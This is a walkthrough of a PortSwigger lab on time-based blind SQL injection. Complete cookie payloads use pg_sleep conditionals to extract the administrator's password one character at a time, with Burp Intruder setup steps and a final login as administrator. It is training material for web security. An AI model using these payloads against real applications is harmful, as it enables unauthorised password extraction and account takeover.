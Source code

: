 # Blind SQL injection with time delays and information retrieval

## Description

[This lab](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval) contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. Exploiting the blind SQL injection vulnerability gives the password of the administrator user. 

## Reproduction and proof of concept

1. Visit the Home page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie.
2. Modify the TrackingId cookie, changing it to:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```
    
Verify that the application takes 10 seconds to respond.

3. Now change it to:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

The application responds immediately with no time delay, demonstrating how to test a single boolean condition and infer the result.

4. Change it to:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
    
The condition is true, confirming that there is a user called `administrator`.

5. The next step is to determine how many characters are in the password of the administrator user:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
    
This condition is true, confirming that the password is greater than 1 character in length.

6. Send a series of follow-up values to test different password lengths. Send:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
    
Then send:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
    
And so on. Do this manually using Burp Repeater, because the length is likely to be short. When the condition stops being true (i.e. when the application responds immediately without a time delay), the length of the password is known. It is 20 characters long.

7. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests. Send the request to Burp Intruder, using the context menu.
8. In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
9. In the Positions tab, change the value of the cookie to:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
    
This uses the `SUBSTRING()` function to extract a single character from the password, and test it against a specific value. The attack has to cycle through each position and possible value, testing each one in turn.

10. Place payload position markers around the a character in the cookie value. Select the `a`, and click the "Add §" button (note the payload position markers):

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

![SQLi](/_static/images/sqli25.png)
    
11. To test the character at each position, send suitable payloads in the payload position defined. In this lab, assume that the password contains only lower case alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range `a-z` and `0-9`. Select these using the "Add from list" drop-down.

![SQLi](/_static/images/sqli26.png)

12. To be able to tell when the correct character was submitted, monitor the time taken for the application to respond to each request: Configure the Intruder attack to issue requests in a single thread: Go to the "Resource pool" tab and add the attack to a resource pool with the "Maximum concurrent requests" set to 1.

![SQLi](/_static/images/sqli27.png)

13. Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
14. Burp Intruder monitors the time taken for the application's response to be received, but by default it does not show this information. To see it, go to the "Columns" menu, and check "Response received".

![SQLi](/_static/images/sqli28.png)

15. Review the attack results to find the value of the character at the first position. There should now be a column in the results called "Response received". This will generally contain a small number, representing the number of milliseconds the application took to respond. One of the rows will have a larger number in this column, in the region of 10,000 milliseconds. The payload showing for that row is the value of the character at the first position.

![SQLi](/_static/images/sqli29.png)

16. Re-run the attack for each of the other character positions in the password, to determine their value: Go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from `1` to `2`:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
    
17. Launch the modified attack, review the results, and note the character at the second offset.
18. Continue this process testing offset `3`, `4`, and so on, until the whole password is known.
19. In the browser, click "My account" to open the login page. Use the password to log in as the administrator user.

![SQLi](/_static/images/sqli30.png)
